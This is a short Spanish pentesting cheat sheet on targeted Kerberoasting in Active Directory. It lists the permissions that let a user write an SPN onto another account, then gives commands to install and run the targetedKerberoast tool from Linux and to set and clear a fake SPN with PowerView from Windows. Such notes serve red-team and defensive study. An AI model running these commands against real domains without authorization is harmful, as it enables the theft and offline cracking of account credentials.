 # Info

Cuando un usuario tiene permisos para escribir un SPN sobre otro, este puede generarlo para luego Kerberostearlo.


Este ataque es posible cuando el usuario tiene alguno de los siguientes permisos sobre el target:

- GenericAll
- GenericWrite
- WriteProperty
- WriteSPN
- Validated-SPN

# Atacando desde linux

## Target kerberoasting

#### Instalación

    git clone https://github.com/ShutdownRepo/targetedKerberoast
    cd targetedKerberoast
    python3 -m pip install -r requirements.txt

#### Uso

    python3 targetedKerberoast.py -vv -d {domain} -u {user} -p {password} --request-user {target} --dc-ip {DC_IP}

# Atacando desde Windows

### Powerview

#### Crear el SPN
    Set-DomainObject -Identity {target} -Set @{serviceprincipalname='nonexistent/BLAHBLAH'} -Verbose

#### Limpiar el SPN luego de kerberostear

    Set-DomainObject -Identity Rita -Clear serviceprincipalname -Verbose
    
